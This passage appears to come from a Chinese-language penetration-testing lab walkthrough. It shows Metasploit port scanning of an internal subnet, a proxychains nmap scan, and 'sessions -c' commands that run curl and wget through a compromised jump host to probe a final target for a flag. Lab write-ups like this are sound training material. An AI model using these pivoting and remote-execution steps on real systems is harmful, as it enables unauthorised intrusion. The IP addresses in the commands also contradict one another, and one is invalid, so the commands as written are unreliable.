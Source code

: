 ```bash
#    192.170.84.0       255.255.255.0      Session 2
# 通过 CTRL-Z 将当前会话放到后台继续执行
```

![](../img/Dracuspicy/75.png)

```bash
use scanner/portscan/tcp
set RHOSTS 192.178.85.2-254
# 预先知道的端口 80
set ports 80
# 或者
proxychains sudo nmap -vv -n -p 80 -Pn -sT 192.192.169.85.2-254
```
![](../img/Dracuspicy/74.png)

```bash
run -j
# 发现终点靶标 192.178.85.2 80(tcp)
```
2.攻击终点靶标
```bash
# 利用跳板机 192.170.84.3 的 shell 会话「踩点」最终靶标
sessions -c "curl http://192.169.85.2" -i 5
# 发现没安装 curl ，试试 wget
sessions -c "wget http://192.169.85.2" -i 5
# 发现没有命令执行回显，试试组合命令
sessions -c "wget http://192.169.85.2 -O /tmp/result && cat /tmp/result" -i 5
# 发现 get flag 提示
```